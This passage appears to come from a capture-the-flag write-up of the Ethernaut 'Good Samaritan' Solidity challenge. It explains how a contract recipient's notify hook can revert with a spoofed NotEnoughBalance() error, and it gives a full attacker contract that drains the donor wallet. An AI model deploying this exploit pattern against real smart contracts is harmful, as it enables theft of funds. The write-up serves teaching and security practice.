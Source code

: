 This custom `transfer()` function is interesting because it calls the `INotifyable::notify` function if the destination address is a contract. And this relies on the `INotifyable` interface. So what if we implement the `INotifyable` interface to revert with the `NotEnoughBalance()` error if we receive 10 coins?

So the flow would be this:

1. `GoodSamaritan::requestDonation()`
2. `Wallet::donate10()`
3. `Coin::transfer()`
4. `INotifyable::notify()`
5. `ThanksForTheNotif::revert NotEnoughBalance()`
6. `wallet::transferRemainder()`

## Solution

Here is the `ThanksForTheNotif` contract that will do just that for us:

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

interface INotifyable {
    function notify(uint256 amount) external;
}

interface IGoodOldSama {
    function coin() external returns (address);
    function wallet() external returns (address);
    function requestDonation() external returns (bool);
}

interface ICoin {
    function balances(address user) external view returns (uint256);
}

contract ThanksForTheNotif {
    IGoodOldSama private goodOldSama;
    ICoin private coin;
    address private wallet;

    error NotEnoughBalance();

    constructor(address _goodOldSama) {
        goodOldSama = IGoodOldSama(_goodOldSama);
        coin = ICoin(goodOldSama.coin());
        wallet = goodOldSama.wallet();
    }

    function notify(uint256 amount) public pure {
        if (amount == 10) {
            revert NotEnoughBalance();
        }
    }

    function attack() public {
        goodOldSama.requestDonation();
        require(coin.balances(wallet) == 0, "Attack failed!");
    }
}
```
